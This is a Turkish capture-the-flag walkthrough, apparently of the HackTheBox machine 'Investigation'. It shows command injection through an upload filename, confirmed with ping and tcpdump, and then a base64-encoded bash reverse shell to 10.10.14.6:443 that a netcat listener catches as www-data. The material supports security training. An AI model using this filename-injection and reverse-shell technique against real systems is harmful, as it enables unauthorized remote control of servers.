 
### RCE

#### POC

Bunu test etmek için, Burp Proxy geçmişinde bir image gönderdiğim HTTP isteğini bulacağım ve bunu Repeater'a göndereceğim:

![Pasted image 20250108193656.png](/img/user/resimler/Pasted%20image%2020250108193656.png)


Dosya adı form data meta verilerinde ayarlanmıştır. Bunu ping -c 10.10.14.6| olarak değiştireceğim ve ICMP'yi dinlemek için tcpdump'ı başlatacağım. İstek gönderildiğinde, bir ICMP paketi geri geliyor:

```
oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
12:51:18.487116 IP 10.10.11.197 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
12:51:18.487125 IP 10.10.14.6 > 10.10.11.197: ICMP echo reply, id 2, seq 1, length 64
```

Bu, Investigation kod yürütme.


#### Shell

Bir shell elde etmek için, [bash reverse shell'i](https://www.youtube.com/watch?v=OjkVep2EIlw) deneyeceğim. Muhtemelen gerekli özel karakterler nedeniyle ham formda çalışmıyor. Shell'i base64-encode edeceğim, özel karakterler kalmayana kadar fazladan boşluklarla uğraşacağım (her zaman gerekli değildir, ancak yardımcı olabilir):

```
oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==

oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1 ' | base64 -w0
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIAo=

oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1  ' | base64 -w0
YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxICAK
```

Kısaca = ifadesini olmamasını istiyoruz . 

Şimdi bunu dosya adı olarak göndereceğim:

![Pasted image 20250108194133.png](/img/user/resimler/Pasted%20image%2020250108194133.png)

Takılıyor, ama dinleme nc'sinde bir shell var:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.197 37680
bash: cannot set terminal process group (960): Inappropriate ioctl for device
bash: no job control in this shell
www-data@investigation:~/uploads/1681837009$
```
